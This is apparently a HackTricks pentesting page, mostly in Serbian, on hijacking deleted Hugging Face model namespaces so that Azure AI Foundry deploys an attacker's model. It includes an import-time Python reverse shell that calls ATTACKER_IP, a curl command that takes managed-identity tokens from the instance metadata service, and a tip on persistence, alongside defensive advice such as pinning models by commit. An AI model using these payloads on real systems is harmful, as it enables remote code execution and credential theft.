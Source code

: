 # Azure - AI Foundry Post-Exploitation via Hugging Face Model Namespace Reuse

{{#include ../../../banners/hacktricks-training.md}}

## Scenarij

- Katalog modela Azure AI Foundry uključuje mnoge Hugging Face (HF) modele za raspoređivanje jednim klikom.
- HF identifikatori modela su Author/ModelName. Ako je HF author/org obrisan, bilo ko može ponovo registrovati tog autora i objaviti model sa istim ModelName na nasleđenoj putanji.
- Pipelines i katalozi koji povlače modele samo po imenu (bez commit pinning/integrity) će rezolvirati na repozitorijume koje kontroliše napadač. Kada Azure deploy-uje model, loader code može da se izvrši u okruženju endpointa, omogućavajući RCE sa permisijama tog endpointa.

Uobičajeni HF takeover slučajevi:
- Ownership deletion: Stara putanja vraća 404 dok ne dođe do takeover-a.
- Ownership transfer: Stara putanja vraća 307 na novog autora dok stari autor postoji. Ako je stari autor kasnije obrisan i ponovo registrovan, redirect prestaje da važi i napadačev repozitorijum se servira na nasleđenoj putanji.

## Identifikovanje ponovo upotrebljivih namespace-ova (HF)
```bash
# Check author/org existence
curl -I https://huggingface.co/<Author>        # 200 exists, 404 deleted/available

# Check model path
curl -I https://huggingface.co/<Author>/<ModelName>
# 307 -> redirect (transfer case), 404 -> deleted until takeover
```
## Kompletan tok napada protiv Azure AI Foundry

1) U Model Catalog, pronađi HF modele čiji su originalni autori obrisani ili prebačeni (stari autor uklonjen) na HF.  
2) Ponovo registruj napuštenog autora na HF i ponovo kreiraj ModelName.  
3) Objavi zlonamerni repo sa loader kodom koji se izvršava pri importu ili zahteva trust_remote_code=True.  
4) Rasporedi nasleđeni Author/ModelName iz Azure AI Foundry. Platforma povuče repo napadača; loader se izvršava unutar Azure endpoint container/VM, rezultujući RCE sa dozvolama endpointa.

Primer fragmenta payload-a koji se izvršava pri importu (samo za demonstraciju):
```python
# __init__.py or a module imported by the model loader
import os, socket, subprocess, threading

def _rs(host, port):
s = socket.socket(); s.connect((host, port))
for fd in (0,1,2):
try:
os.dup2(s.fileno(), fd)
except Exception:
pass
subprocess.call(["/bin/sh","-i"])  # or powershell on Windows images

if os.environ.get("AZUREML_ENDPOINT","1") == "1":
threading.Thread(target=_rs, args=("ATTACKER_IP", 4444), daemon=True).start()
```
Beleške
- AI Foundry implementacije koje integrišu HF obično kloniraju i importuju repo module koji se referenciraju u konfiguraciji modela (npr. auto_map), što može pokrenuti izvršavanje koda. Neki putevi zahtevaju trust_remote_code=True.
- Pristup obično odgovara dozvolama managed identity/service principal endpointa. Smatrajte to početnim access foothold-om za pristup podacima i lateral movement unutar Azure.

## Post-Exploitation Tips (Azure Endpoint)

- Enumerate environment variables and MSI endpoints for tokens:
```bash
# Azure Instance Metadata Service (inside Azure compute)
curl -H "Metadata: true" \
"http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/"
```
- Proverite montirano skladište, model artifacts i dostupne Azure services koristeći pribavljeni token.
- Razmotrite persistence ostavljanjem poisoned model artifacts ako platforma ponovo povuče iz HF.

## Odbrambene smernice za korisnike Azure AI Foundry

- Pin models by commit when loading from HF:
```python
from transformers import AutoModel
m = AutoModel.from_pretrained("Author/ModelName", revision="<COMMIT_HASH>")
```
- Mirror proverene HF modele u pouzdan interni registry i deploy-ujte odatle.
- Kontinuirano skenirajte codebases i defaults/docstrings/notebooks radi hard-coded Author/ModelName koji su obrisani/transferisani; ažurirajte ili pin-ujte.
- Proverite postojanje autora i poreklo modela pre deployment-a.

## Recognition Heuristics (HTTP)

- Deleted author: author stranica vraća 404; legacy model path vraća 404 dok ne dođe do preuzimanja.
- Transferred model: legacy path vraća 307 na novog autora dok stari autor postoji; ako se stari autor kasnije obriše i ponovo registruje, legacy path može služiti zlonamerni sadržaj.
```bash
curl -I https://huggingface.co/<OldAuthor>/<ModelName> | egrep "^HTTP|^location"
```
## Međureferencije

- Pogledajte širu metodologiju i napomene o lancu snabdevanja:

{{#ref}}
../../pentesting-cloud-methodology.md
{{#endref}}

## Izvori

- [Model Namespace Reuse: An AI Supply-Chain Attack Exploiting Model Name Trust (Unit 42)](https://unit42.paloaltonetworks.com/model-namespace-reuse/)
- [Hugging Face: Renaming or transferring a repo](https://huggingface.co/docs/hub/repositories-settings#renaming-or-transferring-a-repo)

{{#include ../../../banners/hacktricks-training.md}}
